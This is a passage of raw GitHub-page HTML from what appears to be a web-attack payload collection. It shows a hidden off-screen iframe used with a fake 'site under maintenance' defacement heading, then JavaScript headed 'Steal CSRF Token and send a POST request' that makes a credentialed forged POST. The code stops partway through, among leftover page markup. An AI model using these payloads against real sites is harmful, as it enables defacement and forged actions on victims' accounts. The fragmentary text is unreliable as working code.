
<iframe src=&quot;2-1.html&quot; style=&quot;position:absolute;top:-5000&quot;>
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-steal-csrf-token-and-send-a-post-request" class="anchor" aria-hidden="true" href="#steal-csrf-token-and-send-a-post-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Steal CSRF Token and send a POST request</strong></h3>
<div class="highlight highlight-source-js position-relative overflow-auto"><pre><span class="pl-k">function</span> <span class="pl-en">submitFormWithTokenJS</span><span class="pl-kos">(</span><span class="pl-s1">token</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
    <span class="pl-k">var</span> <span class="pl-s1">xhr</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">XMLHttpRequest</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-s1">xhr</span><span class="pl-kos">.</span><span class="pl-en">open</span><span class="pl-kos">(</span><span class="pl-s">"POST"</span><span class="pl-kos">,</span> <span class="pl-c1">POST_URL</span><span class="pl-kos">,</span> <span class="pl-c1">true</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-s1">xhr</span><span class="pl-kos">.</span><span class="pl-c1">withCredentials</span> <span class="pl-c1">=</span> <span class="pl-c1">true</span><span class="pl-kos">;</span>

    <span class="pl-c">// Send the proper header information along with the request</span>
    <span class="pl-s1">xhr</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span><span class="pl-s">"Content-type"</span><span class="pl-kos">,</span> <span class="pl-s">"application/x-www-form-urlencoded"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>

    <span class="pl-c">// This is for debugging and can be removed</span>
    <span class="pl-s1">xhr</span><span class="pl-kos">.</span><span class="pl-en">onreadystatechange</span> <span class="pl-c1">=</span> <span class="pl-k">function</span><span class="pl-kos">(</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
        <span class="pl-k">if</span><span class="pl-kos">(</span><span class="pl-s1">xhr</span><span class="pl-kos">.</span><span class="pl-c1">readyState</span> <span class="pl-c1">===</span> <span class="pl-v">XMLHttpRequest</span><span class="pl-kos">.</span><span class="pl-c1">DONE</span> <span class="pl-c1">&amp;&amp;</span> <span class="pl-s1">xhr</span><span class="pl-kos">.</span><span class="pl-c1">status</span> <span class="pl-c1">===</span> <span class="pl-c1">200</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
            <span class="pl-c">//console.log(xhr.responseText);</span>
        <span class="pl-kos">}</span>
    <span class="pl-kos">}</span>
